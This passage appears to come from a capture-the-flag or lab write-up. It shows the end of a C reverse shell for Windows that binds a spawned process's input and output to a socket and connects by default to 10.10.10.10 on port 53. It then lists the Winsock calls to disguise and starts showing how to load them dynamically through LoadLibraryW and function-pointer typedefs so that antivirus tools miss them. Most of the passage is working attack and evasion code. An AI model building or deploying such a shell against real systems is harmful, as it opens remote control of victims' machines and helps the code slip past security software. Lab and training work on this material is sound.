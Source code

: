 ```c
            sinfo.cb = sizeof(sinfo);
            sinfo.dwFlags = (STARTF_USESTDHANDLES | STARTF_USESHOWWINDOW);
            sinfo.hStdInput = sinfo.hStdOutput = sinfo.hStdError = (HANDLE) mySocket;
            CreateProcess(NULL, Process, NULL, NULL, TRUE, 0, NULL, NULL, &sinfo, &pinfo);

            printf("Process Created %lu\\n", pinfo.dwProcessId);

            WaitForSingleObject(pinfo.hProcess, INFINITE);
            CloseHandle(pinfo.hProcess);
            CloseHandle(pinfo.hThread);
        }
}

int main(int argc, char **argv) {
    if (argc == 3) {
        int port  = atoi(argv[2]);
        RunShell(argv[1], port);
    }
    else {
        char host[] = "10.10.10.10";
        int port = 53;
        RunShell(host, port);
    }
    return 0;
} 
```
{: .nolineno }

From this code, we can see the API calls to change :

```text
WSAStartup
WSAConnect
WSACleanup
WSASocketA
WaitForSingleObject
CloseHandle
inet_addr
htons
```
{: .nolineno }

We can apply the method from task 6 for every API call. In example, for WSAStartup, it will be (with the help of Microsoft documentation) :

```c
// 1. Define the structure of the call
int WSAStartup(
        WORD      wVersionRequired,
  [out] LPWSADATA lpWSAData
);

// Becomes :

typedef int (WINAPI* myNotWSAStartup)(
  WORD      wVersionRequired,
  LPWSADATA lpWSAData
);
// 2. Obtain the handle of the module the call address is present in 
HMODULE hWs2_32 = LoadLibraryW(L"Ws2_32.dll"); 
```
{: .nolineno }
